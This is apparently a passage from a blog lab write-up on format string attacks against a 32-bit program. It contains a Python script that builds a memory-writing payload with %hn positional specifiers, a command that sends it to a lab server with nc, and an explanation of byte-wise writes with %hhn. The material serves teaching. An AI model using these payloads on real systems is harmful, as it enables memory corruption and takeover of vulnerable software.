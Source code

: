 ```python
```

```bash
python3 badfile.py
cat badfile | nc -w2 10.9.0.5 9090
```

![task-3-c](https://github.com/iukadike/blog/assets/58455326/3d8147cb-6ef1-44b3-a97f-dfcbde131116)


___

Rather than using so many %x in our attack, we can make use of just one to build up the number we want to write into a memory address and use a modifier (K$) to move the pointer to the Kth element we want to write into.

The above code can be modified as below to achieve this:

```python
#!/usr/bin/python3
import sys

# Start input with the memory address that will store a lower value
content = (0x080e506a).to_bytes(4,byteorder='little')

# Append the memory address that will store a higher value
content += (0x080e5068).to_bytes(4,byteorder='little')

# Append format specifiers
content += ("%.43699x%64$hn").encode('latin-1')
content += ("%.8738x%65$hn").encode('latin-1')

# Append a newline
content += ("\n").encode('latin-1')


# Write the content to badfile
with open('badfile', 'wb') as f:
  print(f"writing {len(content)} bytes to badfile...")
  f.write(content)
```

As we can see, the result is the same.

![task-3-d](https://github.com/iukadike/blog/assets/58455326/84ea0a05-b6d1-4c0d-9938-e5175b22c50f)



##### Using %hhn

While %n treats the argument provided as a 4-byte integer, %hhn treats the argument as a 1-byte integer, overwriting the least significant byte of the argument. We are going to place `0xAABBCCDD` into memory address `0x080e5068` one byte at a time.

Our program is a 32-bit program, so our address is a 4-byte address. Our machine is little-endian, so we break `0xAABBCCDD` into four parts with one byte each.
- 0x080e5068 => 0xDD
- 0x080e5069 => 0xCC
- 0x080e506a => 0xBB
- 0x080e506b => 0xAA
